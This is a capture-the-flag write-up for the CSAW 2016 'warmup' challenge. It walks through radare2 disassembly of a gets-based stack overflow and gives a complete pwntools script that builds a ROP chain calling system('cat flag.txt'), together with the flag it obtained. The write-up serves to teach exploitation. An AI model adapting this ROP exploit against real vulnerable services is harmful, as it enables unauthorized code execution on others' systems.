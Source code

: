 # Pwn50 "warmup"

## The direct approach (with the benefit of hindsight)

Warmup is a pretty simple `x86_64` exploitation challenge.

```
$ file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
```

Looking at it in `r2`, it's easy to see that it leaks an address in the binary (`sym.easy`), and then calls `gets` on a stack-allocated buffer.
```
$ r2 warmup
[0x00400520]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x00400520]> s main
[0x0040061d]> pdf
            ;-- main:
╒ (fcn) sym.main 136
│           ; var int local_40h @ rbp-0x40
│           ; var int local_80h @ rbp-0x80
│           ; DATA XREF from 0x0040053d (sym.main)
│           0x0040061d      55             pushq %rbp
│           0x0040061e      4889e5         movq %rsp, %rbp
│           0x00400621      4883c480       addq $-0x80, %rsp
│           0x00400625      ba0a000000     movl $0xa, %edx
│           0x0040062a      be41074000     movl $str._Warm_Up__n, %esi ; "-Warm Up-." @ 0x400741
│           0x0040062f      bf01000000     movl $1, %edi
│           0x00400634      e887feffff     callq sym.imp.write
│           0x00400639      ba04000000     movl $4, %edx
│           0x0040063e      be4c074000     movl $str.WOW:, %esi        ; "WOW:" @ 0x40074c
│           0x00400643      bf01000000     movl $1, %edi
│           0x00400648      e873feffff     callq sym.imp.write
│           0x0040064d      488d4580       leaq -0x80(%rbp), %rax
│           0x00400651      ba0d064000     movl $sym.easy, %edx        ; "UH...4.@" @ 0x40060d
│           0x00400656      be51074000     movl $0x400751, %esi
│           0x0040065b      4889c7         movq %rax, %rdi
│           0x0040065e      b800000000     movl $0, %eax
│           0x00400663      e8a8feffff     callq sym.imp.sprintf
│           0x00400668      488d4580       leaq -0x80(%rbp), %rax
│           0x0040066c      ba09000000     movl $9, %edx
│           0x00400671      4889c6         movq %rax, %rsi
│           0x00400674      bf01000000     movl $1, %edi
│           0x00400679      e842feffff     callq sym.imp.write
│           0x0040067e      ba01000000     movl $1, %edx
│           0x00400683      be55074000     movl $0x400755, %esi
│           0x00400688      bf01000000     movl $1, %edi
│           0x0040068d      e82efeffff     callq sym.imp.write
│           0x00400692      488d45c0       leaq -0x40(%rbp), %rax
│           0x00400696      4889c7         movq %rax, %rdi
│           0x00400699      b800000000     movl $0, %eax
│           0x0040069e      e85dfeffff     callq sym.imp.gets
│           0x004006a3      c9             leave
╘           0x004006a4      c3             retq
[0x0040061d]> f~easy
0x0040060d 16 sym.easy
```

There are no canaries, and `system` is already included in the PLT:
```
[0x0040061d]> ii
[Imports]
ordinal=001 plt=0x004004c0 bind=GLOBAL type=FUNC name=write
ordinal=002 plt=0x004004d0 bind=GLOBAL type=FUNC name=system
ordinal=003 plt=0x004004e0 bind=GLOBAL type=FUNC name=__libc_start_main
ordinal=004 plt=0x004004f0 bind=UNKNOWN type=NOTYPE name=__gmon_start__
ordinal=005 plt=0x00400500 bind=GLOBAL type=FUNC name=gets
ordinal=006 plt=0x00400510 bind=GLOBAL type=FUNC name=sprintf

6 imports
```

There's also a command to pass already included as a string in the binary:
```
[0x0040061d]> iz
vaddr=0x00400734 paddr=0x00000734 ordinal=000 sz=13 len=12 section=.rodata type=ascii string=cat flag.txt
vaddr=0x00400741 paddr=0x00000741 ordinal=001 sz=11 len=10 section=.rodata type=ascii string=-Warm Up-\n
vaddr=0x0040074c paddr=0x0000074c ordinal=002 sz=5 len=4 section=.rodata type=ascii string=WOW:
```

On `x86_64`, the calling convention is to pass arguments in registers (first rdi, then rsi, then rdx, and so on). In order to invoke `system("cat flag.txt")` from the stack smash, we need to get `0x00400734` (the address of "cat flag.txt") into rdi, and then return to `0x004004d0` (system's PLT entry).

`ROPgadget` is a convenient way to get some helper addresses:
```
$ ROPgadget --binary warmup | grep ': pop rdi\|: ret'
0x0000000000400713 : pop rdi ; ret
0x00000000004004a1 : ret
0x0000000000400595 : ret 0xc148
```

There's a neat trick to avoid caring about the exact offset that system goes into, and that is to use the address of a `ret` instruction as a kind of nop-sled. The start of main subtracts 0x80 from the stack, so I round up to 0xa0 as something large enough to be sure to overwrite the return address, but small enough to not go out-of-bounds for the mapped segment.

Throwing it all together with the `pwntools` Python library:

```
from pwn import *
import struct

p = process('./warmup') if '--live' not in sys.argv else remote('pwn.chal.csaw.io', 8000)

print(p.recvregex('WOW:'))
r = '0x([0-9a-f]*)\n'
easy_offset = 0x40060d
easy_leak = int(re.findall(r, p.recvregex(r))[0], 16)

print('easy_leak: %r' % (easy_leak,))
base_delta = easy_leak - 0x40060d
print('base_delta: %r' % (base_delta,))

ret = struct.pack('<Q', 0x00000000004004a1)
poprdi = struct.pack('<Q', 0x0000000000400713)
catflag = struct.pack('<Q', 0x400730+4)
system = struct.pack('<Q', 0x00000000004004d0)
p.sendline(ret*(0xa0/8) + poprdi + catflag + system)

print p.recvall()
```

This yields us the flag:
```
$ ./pwn50_warmup_exploit.cleaned.py --live
[+] Opening connection to pwn.chal.csaw.io on port 8000: Done
-Warm Up-
WOW:
easy_leak: 4195853
base_delta: 0
[+] Recieving all data: Done (30B)
[*] Closed connection to pwn.chal.csaw.io port 8000
>FLAG{LET_US_BEGIN_CSAW_2016}
```

## Detours I took (without the benefit of hindsight)
I didn't initially use r2's strings command to find the `cat flag.txt` string in the binary. I was looking for the strings `ed` and `sh` in `objdump -s warmup`'s output, in order to get a shell. I didn't find either, but I did notice the `cat flag.txt` string during that.

Also, the using the leak turned out to be unnecessary, as the binary wasn't compiled as position independent (hence `base_delta` evaluating to 0).
